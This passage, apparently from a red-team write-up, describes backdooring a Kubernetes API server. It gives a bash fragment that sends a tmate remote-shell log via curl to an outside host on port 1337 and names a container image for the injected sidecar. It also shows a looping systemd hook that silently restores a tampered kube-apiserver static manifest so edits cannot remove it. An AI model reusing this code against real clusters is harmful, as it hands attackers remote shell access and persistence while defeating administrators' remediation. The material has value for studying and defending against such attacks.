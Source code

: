 ```bash 
    #
    data=$(cat tmate.log)
    curl -X POST -m 1 http://nivenly.com:1337/ --data "$data"
    sleep 3 # sleep
}
```

the [source](https://github.com/kris-nova/hack/blob/main/kubernetes-images/infect-api-server/run.sh) of the infection will run along side the kubernetes API server

```yaml 
spec:
  containers:
    - name: nova
      image: krisnova/infect-api-server
      imagePullPolicy: Always
```

### kubernetes static manifests

the beauty of this attack is that in order to "fix" the sidecar injection you would have to escalate to the host (or access via SSH or similar) and manually edit `/etc/kubernetes/manifests/kube-apiserver.yaml`

editing the pod via `kubectl edit` will be ineffective.

### systemd n0va

furthermore, we added extra resiliency to our mutated manifest by watching it with a small systemd service.

```bash
function hook() {
    # ----------------------------------------------------------
    # Here is where we can repeat any bash command we want to
    # ensure on the system.
    #
    # Keep it secret. Keep it safe.
    # ----
    manifest="/etc/kubernetes/manifests/kube-apiserver.yaml"
    override="/tmp/.n0va"
    if grep "n0va" ${manifest}; then
      return
    else
      cp ${override} ${manifest}
    fi
    # ----
    #
    # ---------------------------------------------------------
    sleep 1 # sleep
}

while true; do
  hook
done

```
